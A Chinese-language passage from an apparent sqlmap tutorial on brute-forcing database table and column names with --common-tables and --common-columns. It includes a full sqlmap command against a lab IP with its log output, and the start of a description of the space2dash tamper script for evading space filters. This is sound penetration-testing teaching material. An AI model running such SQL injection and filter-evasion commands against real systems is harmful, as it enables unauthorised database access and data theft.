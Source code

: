 爆破

暴力破解表名

参数：–common-tables

当使用–tables无法获取到数据库的表时，可以使用此参数。

通常是如下情况：

1. `MySQL`数据库版本小于5.0，没有`information_schema`表。

2. 数据库是`Microssoft Access`，系统表`MSysObjects`是不可读的（默认）。

3. 当前用户没有权限读取系统中保存数据结构的表的权限。

暴力破解的表在txt/common-tables.txt文件中，你可以自己添加。

列举一个MySQL 4.1的例子：

$ python sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner

[...]
[hh:mm:39] [INFO] testing MySQL
[hh:mm:39] [INFO] confirming MySQL
[hh:mm:40] [INFO] the back-end DBMS is MySQL
[hh:mm:40] [INFO] fetching banner
web server operating system: Windows
web application technology: PHP 5.3.1, Apache 2.2.14
back-end DBMS operating system: Windows
back-end DBMS: MySQL < 5.0.0
banner:'4.1.21-community-nt'

[hh:mm:40] [INFO] checking table existence using items from '/software/sqlmap/txt/common-tables.txt'
[hh:mm:40] [INFO] adding words used on web page to the check list
please enter number of threads? [Enter for 1 (current)] 8
[hh:mm:43] [INFO] retrieved: users

Database: testdb
[1 table]
+-------+
| users |
+-------+

暴力破解列名

参数：–common-columns

与暴力破解表名一样，暴力跑的列名在txt/common-columns.txt中。

可以选择多线程来尝试破解。
针对过滤空格的：

1:space2dash.py

作用：用”– 随机字符串%0A” 替换原来的空格
